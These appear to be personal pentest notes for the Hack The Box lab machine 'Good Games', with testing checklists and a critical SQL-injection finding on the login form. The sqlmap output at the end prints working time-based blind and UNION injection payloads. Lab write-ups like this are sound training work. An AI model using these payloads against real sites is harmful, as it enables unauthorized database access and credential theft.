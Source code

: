 #HTB - Good Games
Keywords: #python #docker #weak-pwd

## Notes

_Current IP:_ 10.10.11.130

_Host Name:_ goodgames.htb  (added to /etc/hosts)

_current DB user_: 'main_admin@localhost'

_current DB user is DBA_: False

## To-Do
[ ] Determine where cracked login/password can be used
- does this provide any additional exposure/functions/features?

## Done
### Input Validation
[x] Check for input validation at [signup](http://goodgames.htb/signup)
- --data "email=*&name=*&password=*&password2=*"

[x] Check for input validation at [login](http://goodgames.htb/login)
- --data "email=\*&password=\*"  

[x] Check for input validation at [forgot-password](http://goodgames.htb/forgot-password)
- --data "Email=\*"  

[x] Check for input validation at [coming-soon](http://goodgames.htb/coming-soon)
- IGNORED - page performs a GET request to non-scoped server - "nkdev.us11.list-manage.com"

### Cracking
[x] Attempt to crack obtained hases from SQLi
- initial attempt with rockyou.txt; no clear-text passwords found.

## Findings

### CRITICAL

#### SQLi 
- Host: http://goodgames.htb/login
- What: 'email' variable was not properly sanitized after POST request
```
sqlmap identified the following injection point(s) with a total of 173 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=' AND (SELECT 1612 FROM (SELECT(SLEEP(5)))OMJn) AND 'asXf'='asXf&password=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71716b7871,0x6556565a707445516e4f50797659665a524c546b464a4b48756462794871444b7955445079645357,0x7178716a71)-- -&password=
---
[12:35:25] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
```
